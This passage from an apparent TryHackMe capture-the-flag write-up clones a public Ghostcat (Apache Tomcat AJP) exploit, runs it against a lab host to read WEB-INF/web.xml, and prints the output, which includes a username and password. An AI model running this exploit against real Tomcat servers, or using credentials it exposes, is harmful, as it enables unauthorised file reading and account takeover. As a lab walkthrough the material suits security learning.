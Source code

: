 Download exploit:

```
root@kali:~/TryHackMe# git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487.git
Cloning into 'Ghostcat-CNVD-2020-10487'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (50/50), done.
remote: Compressing objects: 100% (49/49), done.
remote: Total 50 (delta 17), reused 2 (delta 0), pack-reused 0
Unpacking objects: 100% (50/50), 1.76 MiB | 500.00 KiB/s, done.
root@kali:~/TryHackMe# cd Ghostcat-CNVD-2020-10487/
root@kali:~/TryHackMe/Ghostcat-CNVD-2020-10487# ls
ajp-execute.png  ajp-read.png  ajp-save.png  ajpShooter.py  README.md
```

Exploit it:

```
root@kali:~/TryHackMe/Ghostcat-CNVD-2020-10487# python3 ajpShooter.py http://10.10.7.42:8080/demo 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
```